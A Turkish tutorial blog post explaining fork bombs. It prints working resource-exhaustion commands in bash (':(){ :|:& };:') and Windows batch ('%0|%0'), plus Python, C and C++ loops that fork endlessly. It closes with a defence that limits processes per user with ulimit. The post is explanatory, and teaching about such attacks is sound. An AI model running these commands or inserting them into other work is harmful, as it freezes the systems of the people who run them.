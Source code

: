 ```yaml
---
title: "Fork Bomb Nedir?"
date: "23 Kasım, 2022"
excerpt: "Fork Bomb, bir işletim sistemindeki işlemciyi yormak için kullanılan bir saldırı yöntemidir. Ne kadar güçlü bir işlemciniz olursa olsun sonuç kaçınılmazdır."
cover_image: "/blog/Fork-Bomb-Nedir/cover.jpg"
author:
  name: "Muhammet Emin Akalan"
  picture: "https://github.com/05akalan57.png"
---
```


Fork Bomb, bir işletim sistemindeki işlemciyi yormak ve kaynakları tüketmek için kullanılan bir saldırı yöntemidir. Ne kadar güçlü bir işlemciniz olursa olsun sonuç kaçınılmazdır.

## Peki Bu Saldırı Yöntemini Nasıl Yapabiliriz?

Öncelikle Linux işletim sisteminde komut satırını açıp. Aşağıdaki komutu yazıyoruz.

```bash
:(){ :|:& };:
```

Peki bu saldırı sadece Linux işletim sisteminde mi çalışıyor. Hayır, saldırı sadece Linux işletim sisteminde değil, windows işletim sisteminde de çalışmaktadır. Aşağıdaki komutu windows işletim sisteminde çalıştırırsanız saldırı başlayacaktır.

```batch
%0|%0
```

> **Uyarı:** Bu komutu çalıştırdıktan kısa bir süre sonra işletim sisteminizin donmasına ve işlem yapılamaz hale gelmesine sebep olacaktır. Bu yüzden komutu çalıştırmadan önce sisteminizde önemli bir işlem açık olmadığından emin olun.

<video src="/blog/Fork-Bomb-Nedir/incredibles-2.webm" muted autoPlay loop />

## Diğer Programlama Dillerinde Fork Bomb

Yukarda bahsettiğimiz komutlar Linux özelinde **bash** ve windows özelinde **batch** komutlarıdır.

Peki diğer programlama dillerinde Fork Bomb nasıl yapılır?

### Python

```python
import os

while 1:
  os.fork()
```

### C

```c
#include <unistd.h>

int main() {
  while(1) fork();
}
```

### C++

```cpp
#include <cstdlib>

int main(int argc, char **argv) {
  while (1) system(argv[0]);
  return 0;
}
```

Diğer dillerde de kullanımını merak ediyorsanız [buradan](https://github.com/aaronryank/fork-bomb) inceleyebilirsiniz.

## Peki Bu Saldırı Yöntemini Nasıl Engelleyebiliriz?

Bu saldırı yöntemini engellemek için bir çok yöntem bulunmaktadır. Bunlardan bir tanesi kullanıcı bazlı işlem limiti ayarlamaktır.

Örnek vermek gerekirse Muhammet Emin Akalan kullanıcısının işlem limiti 1000 olarak ayarlanmış olsun. Bu durumda saldırı başladıktan kısa bir süre sonra limit aşıldığı için saldırı duracaktır.

### İşlem Limiti Ayarlamak

İşlem limiti ayarlamak için aşağıdaki komutu kullanabilirsiniz.

```bash
ulimit -u 1000
```

Bu komutu yazdıktan sonra işlem limiti 1000 olarak ayarlanmış olacaktır.

